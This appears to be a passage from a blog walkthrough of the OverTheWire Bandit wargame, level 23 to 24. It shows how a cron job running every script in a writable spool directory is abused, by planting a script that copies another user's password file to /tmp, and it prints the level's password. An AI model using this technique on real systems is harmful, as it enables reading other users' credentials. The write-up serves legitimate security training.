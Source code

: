 ## Level 23 -> 24 ##

[Level 23](http://overthewire.org/wargames/bandit/bandit24.html)

Once again....

{% highlight console %}
bandit23@melinda:~$ cat /etc/cron.d/cronjob_bandit24
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@melinda:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in *;
do
    echo "Handling $i"
    ./$i
    rm -f $i
done

{% endhighlight %}

So anything in `/var/spool/bandit24` will get run as bandit24. Checking if we
can write to that directory show us

{% highlight console %}
bandit23@melinda:~$ ls -la /var/spool/
total 21
drwxr-xr-x  6 root     root     4096 Nov 15 14:55 .
drwxr-xr-x 15 root     root     4096 Nov 14 10:32 ..
drwxrwx---  2 bandit24 bandit23 1024 Mar 20 15:38 bandit24
{% endhighlight %}

that we can. Excellent. So let's write a script to cat the password to a tmp file.

{% highlight console %}
!#/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/unl.pass
{% endhighlight %}

Make it executable, copy it to the right directory and then harvest the key

{% highlight console %}
bandit23@melinda:/tmp$ chmod +x t.sh
bandit23@melinda:/tmp$ cp t.sh /var/spool/bandit24/
bandit23@melinda:/tmp$ cat /tmp/unl.pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
{% endhighlight %}

## Level 24 -> 25 ##

[Level 24](http://overthewire.org/wargames/bandit/bandit25.html)

